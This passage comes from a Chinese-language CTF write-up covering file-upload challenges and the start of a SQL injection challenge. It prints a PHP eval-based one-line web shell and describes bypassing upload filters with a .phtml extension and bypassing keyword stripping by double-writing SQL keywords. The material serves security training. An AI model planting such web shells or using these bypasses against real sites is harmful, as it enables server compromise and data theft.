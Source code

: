 然后提示说，不能带有 `<?`，但是我们知道 php的另一种格式：

```php
<script language='php'>@eval($_POST[1]);</script>
```

![image-20221229171223286](https://s2.loli.net/2022/12/29/JyBafbtK41oxmCM.png)

上传成功！

但是png图片怎么执行脚本呢？不行的，我们可以尝试其他后缀 php php3 php5 phtml

![image-20221229171556802](https://s2.loli.net/2022/12/29/M94aifwg31dEmDT.png)

发现phtml可以上传，然后我们访问 /upload/a.phtml:

![image-20221229171823825](https://s2.loli.net/2022/12/29/p9gWDVOw1qr2bku.png)

发现可行，于是使用蚁剑连接得到flag

<img src="https://s2.loli.net/2022/12/29/QNtWoTaGmYb93fS.png" alt="image-20221229171806213" style="zoom:33%;" />



## [ACTF2020 新生赛]Upload

上传一个文件然后抓包：

<img src="https://s2.loli.net/2022/12/29/h5n7LbSwR6tTvGP.png" alt="image-20221229183554196" style="zoom:33%;" />

经过尝试，我们可以上传 `phtml` 后缀文件，内容写一句话木马，上传成功。

然后使用命令执行拿到flag：

<img src="https://s2.loli.net/2022/12/29/Apkq1ZtTcnI8fzm.png" alt="image-20221229183811868" style="zoom:33%;" />





## [极客大挑战 2019]BabySQL

登录使用bp抓包，然后我们去判断闭合：

<img src="https://s2.loli.net/2022/12/29/Bz8Y2UFnN7e3SMR.png" alt="image-20221229185129247" style="zoom: 25%;" />

使用单引号报错，说明可以使用单引号闭合。

然后我们去判断字段数：

<img src="https://s2.loli.net/2022/12/29/N8kqJEOy1BsCjmc.png" alt="image-20221229185245198" style="zoom:25%;" />

报错提示 `der 3` 我们不是 `order by 3` 吗？怎么变这样了，我们猜测可能将这些关键字替换为空了，使用双写绕过：

<img src="https://s2.loli.net/2022/12/29/EyYoT7nD9zkpWGg.png" alt="image-20221229185510246" style="zoom:25%;" />

判断出字段有三个，然后我们使用联合查询判断回显，发现很多关键字也被过滤了，需要双写绕过：
